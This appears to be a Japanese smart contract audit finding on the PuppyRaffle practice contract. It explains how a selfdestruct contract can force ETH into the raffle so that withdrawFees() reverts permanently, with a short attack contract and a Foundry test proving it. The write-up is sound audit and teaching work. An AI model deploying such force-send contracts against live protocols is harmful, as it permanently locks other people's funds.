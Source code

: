 **攻撃の仕組み:**
1. 攻撃者が悪意のあるコントラクトをデプロイ
2. コンストラクタで`selfdestruct(puppyRaffleAddress)`を実行
3. 強制的にETHがPuppyRaffleに送金される
4. `address(this).balance > totalFees`となり会計システム破綻
5. `withdrawFees()`が永続的にrevertし続ける

### Impact
- **HIGH**: プロトコルの手数料が永続的に引き出し不能
- **経済的損失**: 蓄積された全手数料の永続ロック
- **ガバナンス破綻**: オーナーによる手数料管理機能の完全停止
- **攻撃コストの非対称性**: 1 ETHの攻撃で数百ETHの被害可能

### Proof of Concept

**攻撃コントラクト:**
```solidity
contract SelfDestructAttack {
    constructor(address target) payable {
        // PuppyRaffleに強制ETH送金
        selfdestruct(payable(target));
    }
}

// 攻撃の実行:
// new SelfDestructAttack{value: 1 ether}(address(puppyRaffle));
```

**攻撃後のテスト:**
```solidity
function testSelfDestructAttack() public {
    // 1. 正常なラッフル完了でtotalFeesを設定
    address[] memory players = new address[](4);
    // ... setup players ...
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
    
    vm.warp(block.timestamp + duration + 1);
    puppyRaffle.selectWinner();
    
    uint256 expectedFees = (entranceFee * 4 * 20) / 100;
    assertEq(puppyRaffle.totalFees(), expectedFees);
    
    // 2. ラッフル終了後、本来なら引き出し可能
    // Before Attack: address(this).balance == totalFees
    
    // 3. selfdestruct攻撃実行
    new SelfDestructAttack{value: 1 ether}(address(puppyRaffle));
    
    // After Attack: address(this).balance > totalFees
    assertTrue(address(puppyRaffle).balance > puppyRaffle.totalFees());
    
    // 4. withdrawFees()が永続的に失敗
    vm.expectRevert("PuppyRaffle: There are currently players active!");
    puppyRaffle.withdrawFees();
}
```
